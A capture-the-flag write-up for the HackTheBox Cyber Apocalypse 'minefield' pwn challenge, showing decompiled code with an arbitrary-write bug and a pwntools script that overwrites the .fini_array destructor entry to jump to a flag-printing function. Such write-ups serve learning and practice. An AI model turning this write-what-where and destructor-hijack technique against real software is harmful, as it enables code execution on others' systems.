


## Hackthebox Cyberapocalypse CTF: minefield [pwn]


## challenge information
#### This was a pretty neat challenge, I was able to learn another trick from stdnoerr, credits goes to him for the solution to this writeup. Basically, we have a binary with NO RELRO and NO PIE. We only continue to the actual parts of the program when we provide the choice for ready.

## your mission, should you choose to accept it: be a saboteur
#### Reversing the binary, we see the juicy parts of the program on the `mission()` function. We have a very easy write primitive when planting the mine due to the code below:
```c
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Insert type of mine: ");
  r(mine_type,param_2,extraout_EDX,param_4,param_5,param_6);
  pvVar1 = (void *)0x0;
  pointer = (ulonglong *)strtoull(mine_type,(char **)0x0,0);
  printf("Insert location to plant: ");
  r(mine_location,pvVar1,extraout_EDX_00,param_4,param_5,param_6);
  puts("We need to get out of here as soon as possible. Run!");
  data = strtoull(mine_location,(char **)0x0,0);
  *pointer = data;
```
#### We can provide an arbitrary location (which in this case is pretty easy thanks to NO PIE and NO RELRO) plus give it attacker-controlled data. Scrolling through other functions, we see a function labeled as `_` which prints out the flag for us. So the idea would be to overwrite some GOT entry to the location of our flag function. But the problem is that the binary doesn't call any functions after it does the write or does it?


#### Apparently, there is an analogous array for destructors in an ELF binary called `.fini_array`. I'll have to read more into it, but from what I can understand, destructors are invoked as the last function to make sure that a program makes a clean exit. 

#### Our target is an entry called `__do_global_dtors_aux` which runs all the global destructors on exit from the program on systems where .fini_array is not available [source](https://stackoverflow.com/questions/34966097/what-functions-does-gcc-add-to-the-linux-elf). We can leverage this for redirecting code flow and getting the flag.



##### stdnoerr's exploit
```python
#!/usr/bin/env python3
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote('46.101.22.121', 30956)
    else:
        p = elf.process()

context.binary = elf = ELF('challenge/minefield')
libc = elf.libc
start()

p.sendlineafter('> ', '2')
p.sendlineafter(': ', str(elf.sym.__do_global_dtors_aux_fini_array_entry))
p.sendlineafter(': ', str(elf.sym._))

p.interactive()
p.close()
```